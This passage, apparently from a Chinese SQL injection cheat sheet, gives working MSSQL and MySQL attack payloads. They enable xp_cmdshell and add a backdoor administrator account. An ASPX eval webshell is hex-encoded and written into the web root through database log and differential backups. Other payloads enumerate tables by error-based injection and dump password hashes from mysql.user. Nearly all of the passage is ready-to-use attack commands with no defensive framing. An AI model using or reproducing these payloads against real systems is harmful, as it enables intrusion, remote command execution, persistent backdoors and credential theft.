     *   启用 `xp_cmdshell` (如果被禁用):
        ```sql
        ;exec sp_configure 'show advanced options', 1;reconfigure;exec sp_configure 'xp_cmdshell', 1;reconfigure;--
        ```
    *   执行系统命令:
        ```sql
        ;exec master..xp_cmdshell 'whoami';--
        ;exec master..xp_cmdshell 'net user hacker pass /add & net localgroup administrators hacker /add';--
        ```
*   **DB_OWNER 权限利用 (获取WebShell):**
    *   **思路:** 通常无法直接执行 `xp_cmdshell`。可以利用数据库备份功能（`BACKUP DATABASE`, `BACKUP LOG`）或 `bcp` 工具将包含WebShell代码的数据导出到Web目录下。
    *   **步骤 (备份法):**
        1.  **查找Web目录:** 利用报错信息、配置文件读取（可能需要 `xp_dirtree` 或其他方法）、猜测常见路径。
        2.  **创建包含WebShell的表:**
            ```sql
            create table webshell_tmp (code image); -- image类型可存二进制
            -- ASPX一句话木马 <%@ Page Language="Jscript"%><%eval(Request.Item["cmd"],"unsafe");%> 的Hex编码
            insert into webshell_tmp (code) values (0x3C25402050616765204C616E67756167653D224A73637269707422253E3C256576616C28526571756573742E4974656D5B22636D64225D2C22756E7361666522293B253E);
            ```
        3.  **使用备份导出:** (可能需要数据库恢复模式为 Full 或 Bulk-logged，且之前有完整备份)
            ```sql
            -- 方法一: 日志备份 (需先改恢复模式, 事后改回)
            alter database [数据库名] set recovery full; --
            backup log [数据库名] to disk = 'C:\inetpub\wwwroot\shell.aspx' with init; -- 清空日志并创建文件头
            -- 触发含webshell数据的日志记录操作 (如UPDATE该表)
            backup log [数据库名] to disk = 'C:\inetpub\wwwroot\shell.aspx'; -- 备份含木马的日志
            alter database [数据库名] set recovery simple; -- 改回简单模式
            -- 方法二: 差异备份 (需先有完整备份)
            backup database [数据库名] to disk='C:\inetpub\wwwroot\shell.aspx' with differential, format;
            ```
        4.  **清理:** `drop table webshell_tmp;`
*   **PUBLIC 权限利用:**
    *   权限极低，主要进行信息探测（猜解表名、列名、数据），通常依赖报错注入或盲注。
    *   获取库名: `and db_name()=0 --` (报错)
    *   猜表名 (结合已知系统表排除): `and (select top 1 name from sysobjects where xtype='U' and name not in ('dtproperties',...)) > 0 --`
    *   猜列名 (利用 `having` 和 `group by` 报错): `and 1=1 group by table.col1 having 1=1 --` (如果成功，说明 `table.col1` 存在)

#### MySQL数据库注入

*   **特点:** `information_schema` 数据库是信息获取的核心。权限管理相对直接（用户@主机）。`load_file()` 可读文件，`SELECT ... INTO OUTFILE/DUMPFILE` 可写文件（受 `secure_file_priv` 和文件系统权限限制）。默认不支持堆叠查询（但在某些客户端或API中可能被模拟支持）。
*   **信息获取 (常用函数/变量):**
    *   版本: `version()`, `@@version`
    *   用户: `user()`, `current_user()`, `session_user()`, `system_user()`
    *   库名: `database()`, `schema()`
    *   操作系统: `@@version_compile_os`
    *   数据目录: `@@datadir`
    *   安装目录: `@@basedir`
    *   所有库名: `SELECT schema_name FROM information_schema.schemata`
    *   指定库所有表名: `SELECT table_name FROM information_schema.tables WHERE table_schema='数据库名'` (或 `database()`)
    *   指定表所有列名: `SELECT column_name FROM information_schema.columns WHERE table_schema='数据库名' AND table_name='表名'`
    *   获取数据: `SELECT concat_ws(':', col1, col2) FROM 库名.表名 LIMIT 0,1`
    *   合并多行: `SELECT group_concat(username separator ', ') FROM users`
*   **获取用户密码 (需要读取 `mysql` 库权限):**
    *   MySQL < 5.7: `SELECT user, password FROM mysql.user`
    *   MySQL >= 5.7: `SELECT user, authentication_string FROM mysql.user`